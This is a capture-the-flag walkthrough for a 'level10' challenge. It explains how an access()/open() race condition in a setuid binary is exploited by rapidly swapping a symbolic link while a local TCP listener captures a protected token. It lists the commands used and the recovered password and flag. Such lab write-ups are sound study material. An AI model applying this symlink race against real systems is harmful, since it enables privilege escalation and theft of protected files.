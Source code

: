 # level10 solve

To begin, when we get logged and trying to see if we got the file we can see we have two files

```
$ ls
> level10
> token
```

We decide to see what the binary do, for that we can use on of them:
` strace ` ` gdb ` ` lldb ` ` objdump ` ` strings `

In that case we used strace (with gdb we see of the binary take 2 arguments)
And we spot that

```
$ strace ./level10 token 127.0.0.1
> access("token", R_OK) = -1 EACCES
```

Because its probably by that we go an error, we decide to see what the function did
<a href="https://linux.die.net/man/2/access">man access</a>

```
$ man access
```

And we see a warning that can help us

```
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided. (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)

access() always dereferences symbolic links. If you need to check the permissions on a symbolic link
```

Let's search too of <a href="https://doc.ubuntu-fr.org/lien_physique_et_symbolique">symbolic link</a>

```
$ man ln
```

```
-s, --symbolic
	make symbolic links instead of hard links
-f, --force
	remove existing destination files
```

And with that we can listen to the server: <a href="https://unix.stackexchange.com/questions/214471/how-to-create-a-tcp-listener">doc tcp listener</a>

Seeing the script needing multithread so : <a href="https://linuxconfig.org/multi-threaded-bash-scripting-process-management-at-the-command-line">bash threading</a>

We got the <a href="script.sh">script</a>, so let's try it (ctrl + c for cancel after)
-> 1st while for: listen the serv
-> 2nd while for: exec the binary
-> 3rd while for: create symbolic link

```
$ chmod 777 .
$ scp -P 4242 level10/Ressources/script.sh level10@ip:script.sh
$ chmod 777 script.sh
$ ./script.sh
> woupa2yuojeeaaed06riuj63c
> woupa2yuojeeaaed06riuj63c
> ...
```

Try to log on the user flag10 with the password

```
$ su flag10
$ woupa2yuojeeaaed06riuj63c
> Don't forget to launch getflag!
$ getflag
> Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level09">previous level</a> - <a href="../../level11">next level</a>
